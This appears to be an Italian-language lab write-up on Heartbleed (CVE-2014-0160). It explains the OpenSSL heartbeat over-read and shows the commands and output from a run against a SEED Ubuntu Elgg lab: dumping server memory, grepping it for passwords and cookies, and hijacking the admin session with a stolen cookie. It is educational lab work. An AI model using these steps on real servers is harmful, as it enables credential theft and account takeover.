



# Analisi e Sfruttamento di Heartbleed (CVE-2014-0160)

## Introduzione

<p align="center">
  
</p>

L'attacco Heartbleed, identificato formalmente come CVE-2014-0160, è un errore di implementazione nella libreria OpenSSL (versioni dalla 1.0.1 alla 1.0.1f), questo bug permette a un attaccante di leggere la memoria heap di un server remoto, esponendo dati critici senza lasciare traccia nei log.

## Analisi Tecnica: Il Buffer Over-read

La vulnerabilità risiede nell'estensione Heartbeat di TLS, concepita per mantenere viva la connessione senza rinegoziare i parametri. Il protocollo funziona come un "eco":
1. Richiesta (`HeartbeatRequest`): Il client invia un pacchetto contenente un `Payload` (es. la stringa "MELA") e un campo `Payload_Length` che ne dichiara la lunghezza (es. 4 byte).
2. Risposta (`HeartbeatResponse`): Il server alloca un buffer di memoria, vi copia il payload ricevuto e lo rispedisce al client per confermare la propria disponibilità.
Il bug si manifesta a causa della mancanza di Bound Checking (controllo dei limiti). Il server si fida ciecamente del valore dichiarato nel campo `Payload_Length`.

Esempio di Sfruttamento:
1. L'attaccante invia un payload di 1 solo byte (es. "A"), ma dichiara nel campo Length un valore di 64 KB (65535 byte).
2. Il server alloca un buffer da 64 KB e vi copia il primo byte ("A").
3. Per completare i 64 KB richiesti, il server continua a copiare i 63.999 byte successivi presenti nella sua RAM (memoria heap), che non appartengono al pacchetto originale.
4. Questi dati "extra" vengono inviati all'attaccante.

Poiché la memoria RAM del processo OpenSSL è dinamica, i dati estratti (fino a 64 KB per singolo pacchetto) possono contenere:
* Credenziali: Username, password e cookie di sessione di altri utenti.
* Chiavi Private: La chiave RSA del server, che permetterebbe di decriptare tutto il traffico (passato e futuro).
* Contenuti: Messaggi privati, email o transazioni finanziarie.

## Ambiente di laboratorio

La configurazione prevede due macchine virtuali collegate sulla stessa rete interna (NAT-Network).

| Ruolo | Sistema Operativo |
| :--- | :--- |
| Attaccante | Kali Linux |
| Vittima | SEED Ubuntu 12.04 https://seedsecuritylabs.org/lab_env.html |



### Credenziali di accesso a SEED Ubuntu

| Tipo | Username | Password |
| :--- | :--- | :--- |
| Utente Standard | seed | dees |
| Amministratore | root | seedubuntu |



## Configurazione del Target

Il laboratorio utilizza un'istanza locale di `Elgg` ospitata sulla VM SEED Ubuntu. L'intero scenario è "self-hosted", con una gestione del traffico e dei servizi così strutturata:

Risoluzione DNS Locale: Il dominio `www.heartbleedlabelgg.com` è configurato nel file `/etc/hosts` puntando all'interfaccia di loopback (127.0.0.1). Questo confina il traffico all'interno della macchina e instrada le richieste HTTP/S direttamente al server locale.

Web Server (Apache2): L'applicazione è servita da Apache, configurato con una versione vulnerabile di OpenSSL.

### Credenziali dell'applicazione Elgg (Vittima)
| Username | Password |
| :--- | :--- |
| Admin | seedelgg |



## Fasi dell'Attacco

L'attacco è stato simulato in due fasi coordinate:

1. Iniezione dei dati: Un utente legittimo effettua il login o invia un messaggio privato su `www.heartbleedlabelgg.com`. In questo momento, le informazioni sensibili vengono caricate nella memoria RAM (heap) del processo OpenSSL.
2. Estrazione (Leak): Dalla macchina Kali Linux, viene lanciato uno script che invia pacchetti Heartbeat malformati per rubare i dati dalla RAM della vittima.

## Esecuzione e Risultati

### Proof-of-Concept

Per verificare se il target è vulnerabile e osservare l'handshake TLS:
```bash
python2 heartbleed_exploit_tool.py <IP_TARGET> -p 443 -v

# ... Handshake TLSv1.0 ...
# ... Invio Heartbeat malevolo con lunghezza dichiarata 16384 byte ...
WARNING: 192.168.188.149:443 returned more data than it should - server is vulnerable!
```

### Dump

Per eseguire un dump massivo della memoria (10 tentativi) e salvare i dati leggibili (ASCII) in un file:

```bash
python2 heartbleed_exploit_tool.py 192.168.188.149 -p 443 -n 10 -a dump_seed.txt

##################################################################
Connecting to: 192.168.188.149:443, 10 times
Sending Client Hello for TLSv1.0
...
WARNING: 192.168.188.149:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 10...
Please wait... connection attempt 10 of 10...
##################################################################
```

### Estrazione delle informazioni sensibili dal file generato

```bash
grep -iE "user|pass|cookie" dump_seed.txt

Cookie: Elgg=plbe23h23q6kqklb9apsqhlur5
username=Admin&password=seedelgg
body=Ciao+Boby%2C+ecco+la+password+per+accedere+al+server+riservato%3A+P4ssw0rd_Sicura_2026.
```

### Session Hijacking (Verifica Post-Exploit)

```bash
curl -k -L --cookie "Elgg=plbe23h23q6kqklb9apsqhlur5" https://www.heartbleedlabelgg.com | grep -i "admin"

"username":"admin", "admin":true
<a href="https://www.heartbleedlabelgg.com/admin">Administration</a>
```
